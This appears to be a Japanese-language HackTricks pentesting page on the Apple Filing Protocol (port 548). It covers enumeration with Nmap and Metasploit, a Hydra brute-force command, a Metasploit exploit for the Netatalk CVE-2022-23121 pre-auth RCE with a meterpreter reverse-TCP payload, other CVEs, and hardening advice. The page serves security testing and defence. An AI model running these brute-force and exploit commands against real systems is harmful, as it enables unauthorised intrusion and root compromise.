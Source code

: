 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## 基本情報

**Apple Filing Protocol** (**AFP**)は、かつてAppleTalk Filing Protocolとして知られていた、**Apple File Service** (**AFS**)に含まれる専門的なネットワークプロトコルです。macOSおよび古典的なMac OSのためのファイルサービスを提供するように設計されています。AFPは、Unicodeファイル名、POSIXスタイルおよびACL権限、リソースフォーク、名前付き拡張属性、洗練されたファイルロックメカニズムをサポートしている点で際立っています。

AFPは、現代のmacOSリリースではSMBに取って代わられています（OS X 10.9以降はSMBがデフォルト）。それでも、以下の環境で遭遇することがあります：

* レガシーmacOS / Mac OS 9環境
* オープンソースの**Netatalk**デーモンを組み込んだNASアプライアンス（QNAP、Synology、Western Digital、TrueNAS…）
* Time-Machine-over-AFPがまだ有効な混合OSネットワーク

**デフォルトTCPポート：** **548**（TCP上のAFP / DSI）
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## 列挙

### クイックバナー / サーバー情報
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
有用なAFP NSEスクリプト：

| スクリプト | 何をするか |
|--------|--------------|
| **afp-ls**            | 利用可能なAFPボリュームとファイルをリスト表示 |
| **afp-brute**         | AFPログインに対するパスワードブルートフォース |
| **afp-serverinfo**    | サーバー名、マシンタイプ、AFPバージョン、サポートされているUAMなどをダンプ |
| **afp-showmount**     | 共有とそのACLを一緒にリスト表示 |
| **afp-path-vuln**     | ディレクトリトラバーサル、CVE-2010-0533を検出（および悪用可能） |

NSEブルートフォーススクリプトは、より多くの制御が必要な場合、Hydra/Medusaと組み合わせることができます：
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### シェアとの対話

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (using `afpfs-ng` ‑ ほとんどのディストリビューションにパッケージされています)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
マウントされたら、クラシックMacのリソースフォークは隠し`._*` AppleDoubleファイルとして保存されることを忘れないでください。これらはしばしばDFIRツールが見逃す興味深いメタデータを保持しています。

---

## 一般的な脆弱性と悪用

### Netatalkの認証なしRCEチェーン（2022）

いくつかのNASベンダーは**Netatalk ≤3.1.12**を出荷しました。`parse_entries()`の境界チェックの欠如により、攻撃者は悪意のある**AppleDouble**ヘッダーを作成し、認証前に**リモートルート**を取得することができます（**CVSS 9.8 – CVE-2022-23121**）。Western-Digital PR4100を悪用するPoCを含むNCC Groupによる完全な詳細が利用可能です。

Metasploit (>= 6.3)は、DSI `WRITE`を介してペイロードを提供するモジュール`exploit/linux/netatalk/parse_entries`を出荷しています。
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
対象が影響を受けたQNAP/Synologyファームウェアを実行している場合、成功したエクスプロイトは**root**としてシェルを提供します。

### Netatalk OpenSession ヒープオーバーフロー (2018)

古いNetatalk (3.0.0 - 3.1.11)は、**DSI OpenSession**ハンドラーにおけるバッファオーバーランの脆弱性があり、認証されていないコードの実行を可能にします (**CVE-2018-1160**)。詳細な分析とPoCはTenable Researchによって公開されました。

### その他の注目すべき問題

* **CVE-2022-22995** – AppleDouble v2が有効な場合に任意のファイル書き込み/RCEを引き起こすシンボリックリンクリダイレクション (3.1.0 - 3.1.17)。
* **CVE-2010-0533** – Apple Mac OS X 10.6 AFPにおけるディレクトリトラバーサル (検出は`afp-path-vuln.nse`による)。
* **Netatalk 4.x (2024)**では複数のメモリ安全性バグが修正されました – 個別のCVEをパッチするよりもアップグレードを推奨します。

---

## 防御的推奨事項

1. **AFPを無効にする** – SMB3またはNFSを代わりに使用してください。
2. AFPを維持する必要がある場合は、**Netatalkを≥ 3.1.18または4.xにアップグレード**するか、2022/2023/2024のパッチをバックポートしたベンダーファームウェアを適用してください。
3. **強力なUAM**（例：*DHX2*）を強制し、クリアテキストおよびゲストログインを無効にします。
4. TCP 548を信頼できるサブネットに制限し、リモートで公開される場合はAFPをVPN内にラップします。
5. CI/CDで`nmap -p 548 --script afp-*`を定期的にスキャンして、悪意のある/ダウングレードされた機器を検出します。

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## 参考文献

* Netatalkセキュリティアドバイザリー CVE-2022-23121 – "parse_entriesにおける任意のコード実行" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "18年前のバグを悪用する (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
